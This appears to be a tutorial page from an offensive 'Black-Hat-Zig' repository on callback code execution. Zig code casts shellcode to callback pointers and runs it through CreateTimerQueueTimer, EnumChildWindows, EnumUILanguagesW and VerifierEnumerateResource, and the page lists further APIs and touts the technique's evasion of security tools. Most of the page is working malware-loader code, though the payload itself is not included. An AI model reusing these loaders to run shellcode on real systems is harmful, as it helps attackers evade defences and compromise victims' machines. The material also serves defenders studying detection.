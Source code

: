 # Callback Code Execution

## TL;DR

[See the code example](https://github.com/CX330Blake/Black-Hat-Zig/tree/main/src/Malware-Techniques/Callback-Code-Execution)

Callback code execution is a technique that leverages Windows API functions that accept callback function pointers to execute shellcode. Instead of using traditional methods like CreateThread or VirtualAlloc, this approach casts shellcode as a legitimate callback function, making it appear more benign to security solutions.

## What is Callback Function

A callback function is a function passed as an argument to another function, which is then invoked at a specific point during the execution of that function. In Windows, many APIs accept callback functions to handle events, enumerate resources, or perform asynchronous operations.

The key insight for malware development is that these callback functions are executed in the same process context with the same privileges, making them perfect vehicles for shellcode execution. By casting shellcode as a callback function pointer, we can trick legitimate Windows APIs into executing our malicious code.

## Common Callback Functions

### Using CreateTimerQueueTimer

`CreateTimerQueueTimer` creates a timer-queue timer that executes a callback function when the timer expires. This is one of the most reliable callback execution techniques.

```zig
extern "kernel32" fn CreateTimerQueueTimer(
    phNewTimer: *?windows.HANDLE,
    TimerQueue: ?windows.HANDLE,
    Callback: WAITORTIMERCALLBACK,
    Parameter: ?*anyopaque,
    DueTime: windows.DWORD,
    Period: windows.DWORD,
    Flags: windows.ULONG,
) callconv(WINAPI) windows.BOOL;

const WAITORTIMERCALLBACK = *const fn (?*anyopaque, windows.BOOL) callconv(WINAPI) void;

// Cast the payload address to the callback function type
const callback = @as(WAITORTIMERCALLBACK, @ptrCast(&payload));

if (CreateTimerQueueTimer(
    &hTimer,
    null, // TimerQueue - use default queue
    callback, // Callback - our shellcode
    null, // Parameter
    0, // DueTime - execute immediately
    0, // Period - execute once
    0, // Flags
) == 0) {
    print("[!] CreateTimerQueueTimer Failed With Error: {}\n", .{windows.kernel32.GetLastError()});
    return;
}
```

### Using EnumChildWindows

`EnumChildWindows` enumerates child windows and calls a callback function for each window found. When passed a `NULL` parent window, it enumerates all top-level windows.

```zig
extern "user32" fn EnumChildWindows(
    hWndParent: ?HWND,
    lpEnumFunc: WNDENUMPROC,
    lParam: LPARAM,
) callconv(WINAPI) windows.BOOL;

const WNDENUMPROC = *const fn (HWND, LPARAM) callconv(WINAPI) windows.BOOL;

// Cast the payload address to the callback function type
const callback = @as(WNDENUMPROC, @ptrCast(&payload));

if (EnumChildWindows(null, // NULL parent enumerates all top-level windows
    callback, // Our payload
    0 // NULL lParam
) == 0) {
    print("[!] EnumChildWindows Failed With Error: {}\n", .{windows.kernel32.GetLastError()});
    return;
}
```

### Using EnumUILanguagesW

`EnumUILanguagesW` enumerates the user interface languages available on the system, calling a callback function for each language found.

```zig
extern "user32" fn EnumUILanguagesW(
    lpUILanguageEnumProc: UILANGUAGE_ENUMPROCW,
    dwFlags: DWORD,
    lParam: LPARAM
) callconv(WINAPI) windows.BOOL;

const UILANGUAGE_ENUMPROCW = *const fn ([*:0]u16, LPARAM) callconv(WINAPI) windows.BOOL;
const MUI_LANGUAGE_NAME: DWORD = 0x8;

// Cast the payload address to the callback function type
const callback = @as(UILANGUAGE_ENUMPROCW, @ptrCast(&payload));

if (EnumUILanguagesW(callback, MUI_LANGUAGE_NAME, 0) != 0) {
    print("[!] EnumUILanguagesW Failed With Error: {}\n", .{windows.kernel32.GetLastError()});
    return;
}
```

### Using VerifierEnumerateResource

`VerifierEnumerateResource` is part of the Application Verifier framework and enumerates application resources, calling a callback for each resource found.

```zig
// Application Verifier callback function type
const AVRF_RESOURCE_ENUMERATE_CALLBACK = *const fn (
    PVOID, // ResourceDescription
    PVOID, // EnumerationContext
    PULONG, // EnumerationLevel
) callconv(WINAPI) ULONG;

// Function pointer type for VerifierEnumerateResource
const FnVerifierEnumerateResource = *const fn (
    HANDLE, // Process
    ULONG, // Flags
    ULONG, // ResourceType
    AVRF_RESOURCE_ENUMERATE_CALLBACK, // ResourceCallback
    ?PVOID, // EnumerationContext
) callconv(WINAPI) ULONG;

// Load verifier.dll dynamically
hModule = LoadLibraryA("verifier.dll");
const proc_addr = GetProcAddress(hModule.?, "VerifierEnumerateResource");
pVerifierEnumerateResource = @as(FnVerifierEnumerateResource, @ptrCast(proc_addr.?));

// Cast the payload address to the callback function type
const callback = @as(AVRF_RESOURCE_ENUMERATE_CALLBACK, @ptrCast(&payload));

// Call VerifierEnumerateResource
_ = pVerifierEnumerateResource.?(
    GetCurrentProcess(),
    0,
    AvrfResourceHeapAllocation,
    callback,
    null,
);
```

### More

The callback execution technique is versatile and can be applied to many Windows APIs. Some additional functions that accept callbacks include:

- **`EnumerateLoadedModules`** - Enumerates loaded modules in a process
- **`EnumDirTreeW`** - Enumerates directory trees with file patterns
- **`SymEnumProcesses`** - Enumerates processes for symbol handling
- **`EnumPageFilesW`** - Enumerates system paging files
- **`LdrEnumerateLoadedModules`** - Low-level module enumeration via NTDLL
- **`EnumWindows`** - Enumerates all top-level windows
- **`EnumResourceTypesW`** - Enumerates resource types in modules
- **`EnumFontsW`** - Enumerates fonts

You can checkout more callback functions in [this GitHub repository](https://github.com/aahmad097/AlternativeShellcodeExec).

## Advantages Of Callback Execution

1. **Evasion**: Appears as legitimate API usage to security tools
2. **No Suspicious Allocations**: Uses existing executable memory (.text section)
3. **No Thread Creation**: Executes in the context of existing threads
4. **API Diversity**: Many different APIs can be used, making detection harder
5. **Legitimate Context**: Code runs through legitimate Windows API call chains
